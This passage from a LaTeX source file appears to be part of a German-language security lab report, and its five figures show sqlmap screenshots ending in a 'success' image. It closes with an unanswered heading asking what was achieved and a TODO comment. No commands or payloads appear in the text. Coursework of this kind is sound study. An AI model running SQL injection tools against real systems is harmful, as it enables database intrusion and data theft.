    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_1.png}
    \caption{sqlmap: 1/5}
    \label{fig:sql_map_auf_c_1}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_2.png}
    \caption{sqlmap: 2/5}
    \label{fig:sql_map_auf_c_2}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_3.png}
    \caption{sqlmap: 3/5}
    \label{fig:sql_map_auf_c_3}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_4.png}
    \caption{sqlmap: 4/5}
    \label{fig:sql_map_auf_c_4}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_erfolg.png}
    \caption{sqlmap: 5/5}
    \label{fig:sql_map_erfolg}
\end{figure}
\textbf{Was haben wir jetzt eigentlich erreicht?}
% TODO: Was haben wir jetzt eigentlich erreicht?